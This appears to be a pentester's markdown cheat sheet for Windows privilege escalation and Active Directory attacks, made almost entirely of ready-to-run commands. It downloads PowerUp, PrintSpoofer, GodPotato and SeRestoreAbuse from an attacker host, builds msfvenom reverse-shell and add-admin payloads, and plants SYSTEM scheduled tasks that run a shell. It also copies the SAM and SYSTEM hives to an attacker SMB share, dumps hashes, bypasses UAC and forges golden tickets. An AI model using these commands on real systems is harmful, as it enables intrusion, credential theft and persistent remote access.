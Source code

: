 System browsing:
---
```cmd
net user
```

```powershell
Get-LocalUser
```

```powershell
GCI -hidden -recurse
ls -force
```

```cmd
net user $USER
```

```cmd
netstat -an
netstat -an | findstr $PORT
```

```powershell
net accounts
```
Replace service
---
Get list of running services
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check file permissions:

```powershell
icacls 'c:\...'
```
(F) - full permissions, read, write, execute

Check env vars:
```powershell
ls env:
```

or automate the process with PowerUp.ps1
#powerup #replace-service #privesc 
```powershell
iwr -uri http://$LOCAL_IP/PowerUp.ps1 -Outfile PowerUp.ps1
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name '$SERVICE'
Restart-Service $SERVICE
Start-Service $SERVICE
```

Evil-WinRM:
#built-in #winrm #evilwinrm 

```powershell
services
download
upload
```
Scheduled Tasks:
---

#scheduled-tasks

```powershell
schtasks /query /fo LIST /v | findstr /i "c:\users"
schtasks /query /fo LIST /v | Select-String -Pattern "c:\\user" -Context 5,5
```

```powershell
schtasks /create /tn "shell" /tr "task.exe" /sc MINUTE /mo 1 /ru "SYSTEM"
```

```bash
msfvenom -p windows/adduser USER=admin2 PASS=P@ssword123! -f msi-nouac -o alwe.msi
```

Using RunasCs.exe to bypass UAC:
#uac #bypass-uac
```powershell
.\RunasCs.exe $USER $PASS $CMD --bypass-uac -l 5
```
Search for passwords inside the registry
---
#search #registry
```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Find misconfigured services (default settings)
---
```powershell
cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" |findstr /i /v "\`""
```

#unquoted #service-privesc

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v "\`"" | findstr ":"
```

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Stop-Service $SERVICE
Write-ServiceBinary -Name '$SERVICE' -Path "C:\$UNQUOTED_PATH"
Restart-Service $SERVICE
```

Abusing enabled `SeImpersonatePrivilege` with PrinterSpoofer64:

```powershell
whoami /priv | select-string "SeImpersonatePrivilege(.*)Enabled"
iwr -uri http://$LOCAL_IP/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

adding user with godpotato.exe
```powershell
.\GodPotato.exe -cmd "net user test Password123! /add"
.\GodPotato.exe -cmd "net localgroup administrators test /add"
.\GodPotato.exe -cmd 'net localgroup \"Remote Desktop Users\" test /add'
.\GodPotato.exe -cmd 'net localgroup \"Remote Management Users\" test /add'
```
or add to scheduled tasks, generate shell.exe using msfvenom:
```powershell
iwr $KALI_IP/shell.exe -outfile c:\windows\tasks\shell.exe
./godpotato -cmd 'cmd /c SCHTASKS /CREATE /SC MINUTE /TN "shell" /TR "c:\windows\tasks\shell.exe" /RU "SYSTEM" /MO 1'
./godpotato -cmd 'cmd /c SCHTASKS /RUN /TN "shell"'
```

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

Other privileges that can be exploited if enabled: 
`SeBackupPrivilege` `SeAssignPrimaryToken` `SeLoadDriver` `SeDebugPrivilege` `SeRestorePrivilege`

 Abuse:
#SeDebugPrivilege 

```bash
impacket-smbserver -smb2support s .
```

```powershell
cd c:\
reg save hklm\sam c:\temp\sam
reg save hklm\system c:\temp\system
cp system //$LOCAL_IP/s/system
cp sam //$LOCAL_IP/s/sam
```

```bash
pypykatz registry --sam sam system
```

#SeRestorePrivilege

```bash
wget https://github.com/dxnboy/redteam/raw/master/SeRestoreAbuse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 -f exe > shell.exe
```

```powershell
./SeRestoreAbuse.exe 'cmd /c C:\tools\shell.exe'
```
Generate Payload for DLL hijacking
---
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f dll -o revshell.dll
```
Golden ticket
---
generate user password hash:

```python
import hashlib
hashlib.new('md4', '$PASSWORD'.encode('utf-16le')).digest().hex()
# save hash for later
```

or use

```url
https://gchq.github.io/CyberChef/#recipe=NT_Hash()
```

```powershell
get-addomain
#extract DomainSID
```

```shell
ticketer.py -nthash $HASH -domainsid $DOMAINSID -domain $TARGET_AD -spn AnyName/dc.$TARGET_AD administrator
```

```shell
KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@$DCDOMAIN
```

GoldenPAC ms14-068

```bash
impacket-goldenPac -dc-ip $TARGET_IP -target-ip $TARGET_IP '$TARGET_AD/$USER:$PASSWORD@$MACHINE.$TARGET_AD'
```

Port scanning using PowerShell
---

Scan if single port is open:
```powershell
Test-NetConnection 127.0.0.1 -Port $port
```

scan ports from 1 to 1024(slow):
```powershell
foreach ($port in 1..1024){If(($a=Test-NetConnection 127.0.0.1 -Port $port -WarningAction SilentlyContinue).TcpTestSucceeded -eq $true){"TCP port $port is open"}}
```